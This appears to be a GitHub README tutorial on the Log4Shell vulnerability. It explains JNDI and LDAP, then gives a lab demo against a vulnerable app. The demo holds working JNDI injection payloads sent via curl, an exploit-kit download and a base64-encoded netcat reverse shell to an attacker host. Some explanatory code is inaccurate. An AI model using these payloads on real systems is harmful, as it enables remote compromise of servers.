




# Log4shell

## Introduction

- Accessing the host server through log4j vulnerability and exploiting it with malicious code on the host server.

- Since this exploit is done through the log4j it was named commonly as Log4shell.

- Log4shell is similar to the *SQL injection* in which attacker enters sql string into the request parameters and making it execute  on the host server whereas in *log4shell* hacker enters his directory service url like ldap server making the host application connect to the attacker server using jndi lookup and gets the malicious code execute on the host server which is returned to host application in the form of stream object.
<br/>

  

## Log4j Vulnerability

- Log4j is the widely used logging library for all java enterprise applications either referenced directly or indirectly in the applications.

- In 2013, Log4j has introduced a new feature which evaluates Expression language which is in format ${code/variable}.

- For example if we want to print the environment variable then syntax of the logger will be,
   ```log.info("java version is {}", ${java.version});```

- The above expression ${java.version} looks the system level environemnt variables which are set at server level and access the variable and put the value in the logger file.

- This is where the exploit is happening and attackers access the host server access without authorization.
  
## JNDI

- JNDI is *Java Naming & Directory Interface*.

- JNDI provides consistent use of naming and/or directory services as a Java API.

- Most commonly used directory protocols are,
  - LDAP
  - RMI
  - DNS
  - NIS

- Like all Java APIs that interface with host systems, JNDI is independent of the underlying implementation.
<br/>

  

## LDAP 

- LDAP (Light Weight Directory Access Protocol) is a software protocol for enabling anyone to locate data about organizations, individuals and other resources such as files and devices in a network -- whether on the public Internet or on a corporate Intranet.

  

- This is mostly used while authenticating a users when logging in to a applications since it is not a heavyweight protocol like http and takes less time and also reduces the costly DB hits.

- Also, it is very easy to manage users and their roles since constraints can be added at organization or group level which is easy to maintain and manage users when a new rule is introduced or old rule is depricated/removed.


## RCE

- RCE is Remote Code Execution which clearly explains of executing a malicious code on the remote server (host server) without even having access to the server.

  

- Attacker enters malicious code in the form of a request parameter fed to the website and then making the application run the code on the host server and perform whatever attacker wants to do on the host server without having authorized access.

## Demo:

#### Prerequisites:

- [x] *Download LDAP server*:
  ```wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar```
  
- [x] *Run LDAP server*:
  - Move to the jar location and run the server using below command.
    `java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -C "calc.exe" -L <your private ip>:1389`
  <br/>

  
  > *_NOTE:_*  Use **hostname -I | awk '{print $1}'** to ge the private IP.
 - [x] *Create a spring boot application using log4j2 dependence with version less than 2.15* 
      -  Open any Java IDE (Eclipse or SpringToolSuite) 
    
     -  Replace pom.xml with below file & copy below LogController src/main/java a
      [pom](pom.xml)
      [LogController](LogController.java)
     - Add below lines in default file created under src/main/java --> *Application.java in main method. 
      `System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");'
      `System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");'
     - Install [kali-linux](https://www.kali.org/docs/introduction/download-official-kali-linux-images/) and execute below command to install docker for executing app in docker container.
    `sudo apt install docker.io` 
<br/>    
### Live Demo:
I will cover 3 scenarios where the malicious code will execute different outputs on the host system/server.
  1. Open ==calculator== on windows system by executing vulnerable java application on local system.
       - Run the spring boot application as below.
     
       - Use curl to send request to host server with malicious code.
    	`curl <your IP>:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/Y2FsYy5leGU=}'` 
    	<br/>
     
  2. Creating a ==txt file== inside server after hosting application on docker container.
    	- Host the same application in docker using below commands.
    	`docker pull vamsi13krish/vulnerable-app:latest`
    	`docker run -d --name vulnerable-app -p 8080:8080 vamsi13krish/vulnerable-app`
    	` curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_unix/dG91Y2ggL3RtcC9wd25lZC50eHQK}'`
   	- Check the docker container for pwned.txt file in /tmp folder using below command
    	`docker exec -it <container ID> ls /tmp`
  	>*_NOTE_*: Use **docker ps** to get container ID 

    
  3. Getting complete access to the host server using ==netcat== command that will be passed in malicious code on to host server using log4j vulnerability.
  	- Use below command to convert the required netcat command to base64 encoded string.
    	`echo "nc 172.26.9.117 9999 -e /bin/sh" | base64`
  	- Copy the base64 string and paste after exec_global/ in below command
   	 `${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}`
  	- Now open other terminal and run below command to listen to the port 9999.
    	`nc -nvlp 9999`
  	- Run below Curl command and check the listening terminal again
  	  `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://172.26.9.117:1389/serial/CommonsCollections5/exec_global/bmMgIDE3Mi4yNi45LjExNyA5OTk5IC1lIC9iaW4vc2gK}'`  
    
